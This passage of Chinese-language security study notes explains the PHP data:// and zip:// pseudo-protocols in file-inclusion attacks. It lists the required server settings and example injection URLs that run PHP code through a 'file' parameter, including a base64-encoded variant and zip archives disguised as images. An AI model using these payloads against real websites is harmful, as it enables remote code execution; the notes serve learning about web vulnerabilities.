    <img src="../../../../我的坚果云/网安/images/9-07-morning/php：input伪协议结果.png" alt="php：input伪协议结果" style="zoom:67%;" />

##### d. data://协议

1. 用途

   * 执行**接受数据中**包含的**php代码**

2. 使用条件

   * **allow_url_fopen = on**
   * **allow_url_include = on**

3. 使用方法

   ```php
   [URL]?file=data:text/plain,<?php phpinfo();?>
   	or
   [URL]?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=	//base64加密后内容
       or
   [URL]?file=data://text/plain,<?php phpinfo();?>
   ```

4. 案例

   ![](../../../../我的坚果云/网安/images/9-07-morning/data伪协议.png)

   ![data伪协议2](../../../../我的坚果云/网安/images/9-07-morning/data伪协议2.png)

   ![data伪协议3](../../../../我的坚果云/网安/images/9-07-morning/data伪协议3.png)

##### e. zip://协议

1. 用途

   * 读取**压缩包**内的文件，如果**包含php代码就直接执行**

2. 使用条件

   * allow_url_fopen = on/off
   * allow_url_include = on/off
   * 知道**相对路径或绝对路径**

3. 使用方法

   ```php
   zip://archive.zip#dir/file.txt
   	or
   zip://[相对路径/绝对路径]#[压缩文件内的子文件名]
   ```

4. 案例

   ```php
   [URL]?file=zip://D:/WWW/file.zip%23phpcode.txt
   	or
   [URL]?file=zip://D:/WWW/file.zip%23php/phpcode.txt
       or
   [URl]?file=zip://D:/WWW/file.jpg%23phpcode.txt
   ```
